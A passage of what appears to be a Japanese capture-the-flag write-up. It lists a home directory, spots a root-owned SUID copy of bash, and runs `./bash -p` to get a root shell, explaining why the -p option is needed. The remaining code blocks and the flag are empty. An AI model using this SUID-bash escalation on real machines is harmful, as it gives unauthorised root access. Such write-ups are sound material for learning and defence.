 ```bash
```
  
念のため`ls -al`でディレクトリ内とその権限等を見てみる
```bash
cappucino@polonfs:~$ ls -al
total 1284
drwxr-xr-x 5 cappucino cappucino    4096 Jun 10 23:07 .
drwxr-xr-x 3 root      root         4096 Apr 21  2020 ..
-rwsr-sr-x 1 root      cappucino 1277936 Jun 10 23:07 bash
-rw------- 1 cappucino cappucino      58 Jun 10 23:08 .bash_history
-rw-r--r-- 1 cappucino cappucino     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cappucino cappucino    3771 Apr  4  2018 .bashrc
drwx------ 2 cappucino cappucino    4096 Apr 22  2020 .cache
drwx------ 3 cappucino cappucino    4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 cappucino cappucino     807 Apr  4  2018 .profile
drwx------ 2 cappucino cappucino    4096 Apr 22  2020 .ssh
-rw-r--r-- 1 cappucino cappucino       0 Apr 22  2020 .sudo_as_admin_successful
```
bashに`SUIDが設定`されており、所有者が`root`になっていることが確認できる。  
ここまできたら後は実行するだけ。  
```bash
cappucino@polonfs:~$ ./bash -p

bash-4.4# whoami
root
```
`./bash`の`-pオプション`は、実行者の権限を保持するというオプションになる。普通にSUIDが付いていればそのままrootで実行されるものだが、bashに限っては権限をドロップすることがあるらしいので、明示的にオプションを付けて実行  
`whoami`を実行するとrootになっていることが確認できる。




### 4-.

```bash

```
  
flag：`` 